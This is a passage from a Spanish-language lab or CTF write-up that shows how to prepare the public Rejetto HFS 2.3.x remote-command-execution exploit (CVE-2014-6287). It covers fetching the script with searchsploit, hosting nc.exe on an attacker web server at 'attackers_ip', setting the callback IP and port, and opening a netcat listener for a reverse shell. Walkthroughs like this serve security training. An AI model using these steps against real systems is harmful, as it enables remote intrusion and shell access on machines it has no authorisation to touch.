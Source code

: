 <br>

<h3 id="PruebaExp">Probando Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</h3>

Si revisamos el Exploit, observa que nos dice algo importante:

| *Traducción* |
|:-----------:|
| *Debe estar utilizando un servidor web que aloje netcat (http://attackers_ip:80/nc.exe) y ¡Es posible que deba ejecutarlo varias veces para tener éxito!* |

<br>

Entonces, debemos alzar un servidor web que contenga una **netcat**, como con otras máquinas, para que este Exploit descargue dicha **netcat** en el **servicio HFS**, y supongo que si lo ejecutamos otra o varias veces, hara que se ejecute la **netcat** y nos conecte. Vamos a copiar el Exploit y lo modificaremos:
```bash
searchsploit -m windows/remote/39161.py
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
    Codes: CVE-2014-6287, OSVDB-111386
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (540)
```

Ahora sí, hagámoslo por pasos:

* Para empezar, busquemos la **netcat** en Kali:
```bash
locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

* Copiamos la de binarios:
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
ls           
allPorts  HFS_Exploit.py  nc.exe  targeted
```

* Antes de levantar el servidor para cargar la netcat, hay que cambiar estas dos variables del Exploit:
```python
	ip_addr = "Tu_IP" #local IP address
        local_port = "443" # Local Port number
```

* Ahora sí, activamos el servidor:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Activamos una netcat con el puerto que pusimos:
```bash
nc -nvlp 443                       
listening on [any] 443 ...
```
